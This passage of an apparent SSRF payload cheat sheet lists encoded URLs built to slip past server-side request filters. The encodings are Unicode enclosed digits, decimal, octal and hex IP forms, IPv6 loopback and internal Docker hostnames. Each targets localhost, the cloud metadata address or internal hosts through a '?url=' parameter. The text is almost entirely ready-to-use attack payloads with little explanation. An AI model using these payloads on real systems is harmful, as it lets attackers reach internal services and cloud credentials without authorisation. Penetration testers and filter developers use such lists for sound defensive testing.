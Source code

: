 #### 5.1. Unicode enclosed alphanumerics

```
http://⑯⑨。②⑤④。⑯⑨｡②⑤④/
http://⓪ⓧⓐ⑨｡⓪ⓧⓕⓔ｡⓪ⓧⓐ⑨｡⓪ⓧⓕⓔ:80/
http://⓪ⓧⓐ⑨ⓕⓔⓐ⑨ⓕⓔ:80/
http://②⑧⑤②⓪③⑨①⑥⑥:80/
http://④②⑤｡⑤①⓪｡④②⑤｡⑤①⓪:80/
http://⓪②⑤①。⓪③⑦⑥。⓪②⑤①。⓪③⑦⑥
```

#### 5.2. Decimal IP - converts to `0.0.0.0`
```
$target/?url=http://0:1234
$target/?url=http://0x00:1234
$target/?url=http://0000:1234
$target/?url=http://00000000000000000000:1234
```

#### 5.3. Decimal IP - converts to `127.x.x.x`
```
$target/?url=http://2130706433:1234
$target/?url=http://127.1:1234
$target/?url=http://127.127.127.127:1234
$target/?url=http://127.0.0.0:1234
$target/?url=http://127.x.y.z:1234
$target/?url=http://127.1.1.1:1234\@@127.2.2.2:1234/
$target/?url=http://0x7F000001:1234
$target/?url=http://0x7f.0x0.0x0.0x1
$target/?url=http://0177.0.0.01
$target/?url=http://0177.0.0.0x1
```

#### 5.4. IPV6
```
$target/?url=http://[::1]:22
$target/?url=http://[0:0:0:0:0:FFFF:7F00:0001]:22
$target/?url=https://[2604:1380:1000:af00::1]
```

#### 5.5. Other
```
$target/?url=http://0.0.0.0:1234
$target/?url=http://172.17.0.56:1234
$target/?url=http://645dfd9b516b:1234 - where `645dfd9b516b` is the Docker hostname
```
